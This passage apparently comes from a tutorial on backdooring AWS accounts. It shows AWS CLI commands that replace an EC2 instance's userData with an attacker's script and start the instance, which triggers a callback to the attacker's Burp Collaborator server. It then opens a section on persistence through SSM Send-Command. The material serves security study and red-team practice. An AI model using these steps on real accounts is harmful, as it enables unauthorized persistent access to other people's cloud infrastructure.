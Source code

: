 ```bash
aws ec2 modify-instance-attribute --instance-id i-xxxxxx --attribute userData --value file://userdata.b64.txt --region eu-central-1
```

![](/assets/img/posts/methods-to-backdoor-an-aws-account/case-05-03-Modifying-UserData-of-Instance.png)
_Modifying the userdata attribute of an instance_


Now all that's left is to start the instance:

```bash
aws ec2 start-instances --instance-ids i-xxxxx --region eu-central-1
```

![](/assets/img/posts/methods-to-backdoor-an-aws-account/case-05-04-Starting-instance.png)
_Starting an instance_

We should get an HTTP request on our server as soon as the instance starts:

![](/assets/img/posts/methods-to-backdoor-an-aws-account/case-05-05-Command-Executed-on-Target-Instance.png)
_HTTP request on our burp collaborator_


## Persistence - EC2 SSM Send-Command
Amazon's Simple System Manager can be used to remotely manage EC2 instances. For SSM to work, an SSM Agent needs to be installed on the target ec2 instance (it is pre-installed in some AMIs already). 
